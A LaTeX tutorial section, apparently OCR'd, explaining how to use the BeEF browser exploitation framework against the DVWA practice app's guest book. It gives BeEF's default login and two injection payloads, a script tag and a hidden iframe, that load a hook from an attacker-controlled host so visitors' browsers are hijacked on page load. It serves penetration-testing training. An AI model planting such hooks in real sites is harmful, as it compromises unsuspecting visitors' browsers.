 \documentclass[a4paper,11pt]{report}
\begin{document}
		\subsection{BeEF}
			BeEF is the tool that makes this these attacks interesting. 	
			While previously, you could run arbitrary code on the remote computer, now you can run dynamic code. 
			The former is more powerful if you know how to write code, but BeEF will give you mostly the same outcome with far less work. 
			Similarly, like all good Linux tools, BeEF comes with both a CLI and GUI version. 
			We will be working with the GUI, as it does most of what we need to do. 
			However, the CLI version is significantly more powerful and adaptable. 
			
			The Default username and password for BeEF is beef:beef.
			\subsubsection{Hooking}
				Before you can do anything with BeEF, you will have to hook a browser. 
				To do this, you will first have to find a vulnerable page such as the guest book on DVWA. 
				At this point, you will want to embed the BeEF hook script into the page with a command such as the following:
				\begin{verbatim}
					<script src= “http://192.168.31.20:3000/hook.js&#8221;  
type= "text/javascript" ></script>
					or
					<iframe height=0 width=0 
src=http://192.168.31.21:3000/demos/basic.html></iframe>
				\end{verbatim}
				If you set this up correctly, the victim will have to do nothing more than access the page to be hooked. 
				No clicking or other intervention is required. 
			\subsubsection{Attacking}
				Once your hook is set, you should see an IP address under ``Online Browsers'' in the BeEF UI. 
				You can then select this IP for more information and attacks. 
				
				Under the details tab you will see the details of the browser and OS. 
				This can be useful for working out what attacks might work and determining what kind of user you are working with. 
\end{document}

